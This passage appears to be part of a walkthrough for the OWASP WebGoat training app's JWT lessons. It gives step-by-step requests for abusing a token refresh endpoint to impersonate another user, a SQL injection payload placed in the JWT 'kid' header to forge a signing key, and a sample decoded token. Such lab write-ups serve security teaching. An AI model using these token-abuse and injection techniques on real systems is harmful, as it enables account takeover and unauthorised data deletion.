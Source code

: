 ![JWT 5](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/jwt-5.png)

7.  
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)  This challenge doesn't provide enough information to be completed. By looking into the source code, we can find the following has to be done: Make a `POST` request to http://host:port/WebGoat/JWT/refresh/login with header `Content-Type: application/json` and content `{"user":"Jerry","password":"bm5nhSkxCXZkKRy4"}` to obtain a `<jerry_refresh_token>`.   
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)  Lesson number does not turn green on validation.

![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Look at the access log you will find a token there  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) The token from the access log is no longer valid, can you find a way to refresh it?  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) The endpoint for refreshing a token is 'jwt/refresh/newToken'  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Use the found access token in the Authorization: Bearer header and use your own refresh token

*   Find the `<tom_access_token>` from the logs.
*   Make a `POST` request to http://host:port/WebGoat/JWT/refresh/newToken with header `Content-Type: application/json` and `Authorization: Bearer <tom_access_token>` and content `{"refresh_token":"<jerry_refresh_token>"}`
*   Get the `<tom_access_token_new>`.
*   Intercept the POST request to http://host:port/WebGoat/JWT/refresh/checkout and add header `Authorization: Bearer <tom_access_token_new>`

![JWT 7](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/jwt-7-1.png)

![JWT 7](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/jwt-7-2.png)

![JWT 7](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/jwt-7-3.png)

![JWT 7](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/jwt-7-4.png)

![JWT 7](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/jwt-7-5.png)

8.  
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)  It lacks a precision in the hints: the key is decoded as a base64 chain. Also instead of using as **kid** `hacked' UNION select 'deletingTom' from INFORMATION_SCHEMA.SYSTEM_USERS --`, you have to use `hacked' UNION select 'ZGVsZXRpbmdUb20=' from INFORMATION_SCHEMA.SYSTEM_USERS --`   
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)  Lesson number does not turn green on validation.

![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Take a look at the token and specifically and the header  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) The 'kid' (key ID) header parameter is a hint indicating which key was used to secure the JWS  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) The key can be located on the filesystem in memory or even reside in the database  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) The key is stored in the database and loaded while verifying a token  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Using a SQL injection you might be able to manipulate the key to something you know and create a new token.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Use: hacked' UNION select 'deletingTom' from INFORMATION\_SCHEMA.SYSTEM\_USERS -- as the kid in the header and change the contents of the token to Tom and hit the endpoint with the new token

*   Open the _Development Tools_ in the browser, and go to the _Network_ tab.
*   On WebGoat, click on **Delete**.
*   Locate the query to `delete` in the _Network_ tab and click on _Headers_.
*   Notice the parameter:
```
token=eyJ0eXAiOiJKV1QiLCJraWQiOiJ3ZWJnb2F0X2tleSIsImFsZyI6IkhTMjU2In0.eyJpc3MiOi
JXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYX
VkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsInVzZXJuYW1lIjoiSmVycn
kiLCJFbWFpbCI6ImplcnJ5QHdlYmdvYXQuY29tIiwiUm9sZSI6WyJDYXQiXX0.CgZ27DzgVW8gzc0n6i
zOU638uUCi6UhiOJKYzoEZGE8
```
*   In base64, this is decoded as:
```
{"typ":"JWT","kid":"webgoat_key","alg":"HS256"}.{"iss":"WebGoat Token Builder",
"iat":1524210904,"exp":1618905304,"aud":"webgoat.org","sub":"jerry@webgoat.com",
"username":"Jerry","Email":"jerry@webgoat.com","Role":["Cat"]}.signature
```